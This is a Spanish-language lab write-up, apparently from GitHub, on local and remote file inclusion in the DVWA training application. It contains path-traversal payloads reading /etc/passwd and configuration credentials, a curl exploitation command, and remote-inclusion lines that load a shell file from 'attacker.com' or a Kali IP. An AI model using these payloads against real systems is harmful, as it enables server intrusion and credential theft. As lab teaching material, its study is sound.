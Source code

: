 # 📖 FILE INCLUSION

**File inclusion** significa que una aplicación web permite incluir archivos dentro de su ejecución. Esto ocurre cuando un parámetro (por ejemplo ?page=...) se concatena directamente a una función PHP como:

```php
include($_GET['page']);
```

## Tipos principales

1. **LFI (Local File Incllusion)** → incluir archivos locales del servidor. Ejemplo:

```ruby
http://127.0.0.1:8080/vulnerabilities/fi/?page=../../../../etc/passwd
```

2. **RFI (Remote File Inclusion)** → incluir archivos remotos (si allow_url_include está activado en PHP). Ejemplo:

```ruby
http://127.0.0.1:8080/vulnerabilities/fi/?page=http://attacker.com/shell.txt
```

En DVWA normalmente funciona el LFI, y el RFI solo si lo habilitas en la configuración de PHP.

## 🎯 Objetivo

Explotar vulnerabilidades de **File Inclusion** en DVWA para:

- Leer archivos sensibles del servidor.
- Comprender la diferencia entre **LFI** y **RFI**.
- Intentar escalar hacia ejecución remota de código si es posible.

## 🧪 Paso 1 - Identificar el parámetro vulnerable

Ruta vulnerable en DVWA:

```http
http://127.0.0.1:8080/vulnerabilities/fi/?page=include.php
```

El parámetro `page` incluye tres archivos en el servidor y ya nos indica que no podemos atacar a través de **RFI**: The PHP function allow_url_include is not enabled.

<img width="673" height="248" alt="imagen" src="https://github.com/user-attachments/assets/9b784266-2822-40be-affc-6e701d056afc" />

## 🧪 Paso 2 - Probar inclusión local (LFI)

Tras abrir los 3 archivos nos encontramos con información valiosa sobre la ip, el usuario y otras credenciales.

En nuestra terminal de Kali de ejemplo: intentamos leer `/etc/passwd`

```bash
curl "http://127.0.0.1:8080/vulnerabilities/fi/?page=../../../../etc/passwd" \
  --cookie "PHPSESSID=XXXXX; security=low"
```

## 🧪 Paso 3 - Enumerar archivos interesantes

Algunos objetivos típicos:

- /etc/passwd
- /etc/hosts
- /var/www/html/config/config.inc.php (credenciales en DVWA)

## 🧪 Paso 4 - (Opcional) Remote File Inclusion (RFI)

Si allow_url_include=On, probamos:

```bash
http://127.0.0.1:8080/vulnerabilities/fi/?page=http://<IP-Kali>/shell.txt
```

## ✅ Conclusión

- Explicar diferencia entre LFI y RFI.
- Riesgos en aplicaciones reales.
- Cómo prevenir: sanitizar parámetros, usar listas blancas de archivos, desactivar allow_url_include

